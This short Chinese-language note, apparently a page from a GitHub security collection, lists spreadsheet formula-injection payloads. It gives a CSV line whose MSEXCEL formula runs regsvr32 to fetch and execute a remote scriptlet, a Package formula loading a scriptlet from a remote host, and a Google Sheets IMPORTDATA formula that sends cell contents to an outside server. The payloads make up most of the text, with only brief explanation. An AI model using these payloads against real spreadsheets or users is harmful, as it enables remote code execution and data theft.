 # 其他利用方式

### Package 方式 #1

以 `MSEXCEL` 包为例，新建CSV文档，内容类似下面

```
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://192.168.154.200/cmd.sct scrobj.dll'!''
```

用户确认后可执行代码

### Package 方式 #2

[参考文章: When Scriptlets Attack: Excel’s Alternative to DDE Code Execution](https://www.lastline.com/labsblog/when-scriptlets-attack-excels-alternative-to-dde-code-execution/)

此方法可通过 Excel 加载 scriptlet

```
=Package|'scRiPt:http://XXXX/XXXX.xml'!""
```

### IMPORTDATA 后门

[参考文章: Server-Side Spreadsheet Injection – Formula Injection to Remote Code Execution](https://www.bishopfox.com/blog/2018/06/server-side-spreadsheet-injections/)

此方法只适合 Google Sheets，且随时可能修复

```
=IFERROR(IMPORTDATA(CONCAT("http://127.0.0.1:8000/save/",JOIN(",",B3:B18,C3:C18,D3:D18
,E3:E18,F3:F18,G3:G18,H3:H18,I3:I18,J3:J18,K3:K18,L3:L18,M3:M18,N3:N18,O3:O18,P3:P18,Q3:Q18,R3:R18))),"")
```

